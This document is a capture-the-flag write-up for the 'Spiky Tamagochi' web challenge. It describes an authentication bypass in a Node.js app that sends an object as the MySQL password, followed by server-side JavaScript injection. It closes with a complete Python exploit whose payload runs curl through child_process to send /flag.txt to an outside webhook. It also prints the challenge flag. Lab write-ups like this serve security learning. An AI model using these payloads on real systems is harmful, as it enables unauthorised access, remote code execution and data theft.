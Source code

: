 ## Spiky Tamagochi

## Challenge Author(s):

Ulysses

## Description:

Captain Spiky comes from a rare species of creatures who can only breathe underwater. During the energy-crisis war, he was captured as a war prisoner and later forced to be a Tamagotchi pet for a child of a general of nomadic tribes. He is forced to react in specific ways and controlled remotely purely for the amusement of the general's children. The Paraman crew needs to save the captain of his misery as he is potentially a great asset for the war against Draeger. Can you hack into the Tamagotchi controller to rescue the captain?



# Target: docker ip on demand

## Difficulty/Points: 350/easy

## Flag: HTB{3sc4p3d_bec0z_n0_typ3_ch3ck5}


## Challenge

The challenge is presented with one login page and that's it. We have no login credentials.

# Solution 

The challenge solution in this case must necessarily be something related to XSS or SQLi. To find out, you have to analyse the request captured by burp and see if it is vulnerable somewhere. We can tell that it is a nodeJS application by the source code present on the web page. We can see that in the login operation it uses mysql's prepared statements without filtering. The absence of filters allows me to execute an SQLi by sending an object instead of a string, which always returns true. The payload can be constructed by embedding an object as a password instead of a string, and then we can log in as admin simply by sending the payload of an always true SQLi. After logging in, we turn to the endpoit activity, again trying to figure out with burp what to do to get the flag. We note that the use of the payload sent inside the calculation function exposed by the SpikyFactor file is not filtered by anything, so I can insert superscripts to terminate the JS code and insert code that the server will execute for me causing an RCE. The RCE works because the activity parameter handled by the web application is simply copied and pasted without filtering, and I can insert superscripts to stop the code syntax and start the syntax in the server context. There is a difference between the JS code on the client and the JS code on the server, we server that the JS is interpreted by the server which will execute bash commands for us and send the flag to our endpoint.

```python
import requests

url="http://178.62.83.221:30982"
web_hook="https://93a187a44d8aeefb2dccb39e84635adb.m.pipedream.net"

session = requests.session()

burp0_url = "{}/api/login".format(url)
burp0_headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Content-Type": "application/json", "Accept": "*/*", "Origin": "http://178.62.83.221:30982", "Referer": "http://178.62.83.221:30982/", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close"}
burp0_json={"password": {"password": 1}, "username": "admin"}
session.post(burp0_url, headers=burp0_headers, json=burp0_json)

burp0_url = "{}/api/activity".format(url)
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "it-IT,it;q=0.9,en-US;q=0.8,en;q=0.7", "Connection": "close", "Content-Type": "application/json"}
burp0_json={"activity": "asd'+process.mainModule.require('child_process').exec('curl *WEBHOOK*/$(cat /flag.txt)', (error, stdout, stderr) => {})+'".replace("*WEBHOOK*",web_hook), "happiness": "1", "health": "1", "weight": "1"}
session.post(burp0_url, headers=burp0_headers, json=burp0_json)

print("Controlla il Web Hook {}".format(web_hook))
```

the flag will be received printed in the webhook page.